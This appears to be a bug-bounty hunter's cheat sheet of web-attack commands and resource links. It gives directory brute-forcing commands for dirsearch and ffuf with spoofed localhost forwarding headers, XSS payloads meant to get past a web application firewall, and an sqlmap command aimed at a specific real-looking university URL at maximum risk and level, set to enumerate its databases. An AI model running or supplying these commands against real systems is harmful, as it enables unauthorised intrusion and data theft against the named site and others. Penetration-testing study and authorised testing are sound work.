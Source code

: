 ## Dir Buster

dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1

ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0" -H "X-Forwarded-For: 127.0.0.1" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-Host: localhost" -t 100 -r -o results.json

[www.cspbypasser.com](http://cspbypass.com/)

Passive Url's: https://sawravchy.github.io/archivefinder/

Firefox Extensions:

https://github.com/kevin-mizu/domloggerpp?tab=readme-ov-file

https://chromewebstore.google.com/detail/sessionbox-multi-login-to/megbklhjamjbcafknkgmokldgolkdfig?hl=en

Hackbar: https://addons.mozilla.org/en-US/firefox/addon/maxs-hackbar/



Payloads:

https://github.com/coffinxp/lostools/blob/main/payloads/payloads/xor.txt
 https://tib3rius.com/sqli

 XSS: WAF <details/open/id="&quote;"ontoggle=[JS]>

<details/open/id="&quote;"ontoggle=[JS]>

<details open id="' &quote;'"ontoggle=[JS]>
 
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

 Practice: https://www.bugbountyhunter.com/

 Nuclei Teamplates: https://nuclei-templates.netlify.app/#q=pdteam

 Proxy Chains Socks: https://github.com/TheSpeedX/PROXY-List

 Writeups: https://www.bugbountyhunting.com/

 Encoder/Decoder: https://dencode.com/

Broken Link Hijacking: https://github.com/H4cker-Nafeed/Nafeed-Broken-Link

Burp Extensions: https://portswigger.net/bappstore/b4915681326648b1a12e4059d71bc909

Writeups: https://github.com/reddelexc/hackerone-reports/tree/master/tops_by_bug_type

SQL Map:sqlmap -u 
'https://cutm.ac.in/payu/skill/index.php?id=34' --batch --dbs --threads=5 --random-agent --risk=3 --level=5 --tamper=space2comment -v 3 --dbms  MySQL

Wayback Url: https://web.archive.org

Cyberchef : https://gchq.github.io/CyberChef/
reference : https://pentestbook.six2dez.com
jwt : Jwt.io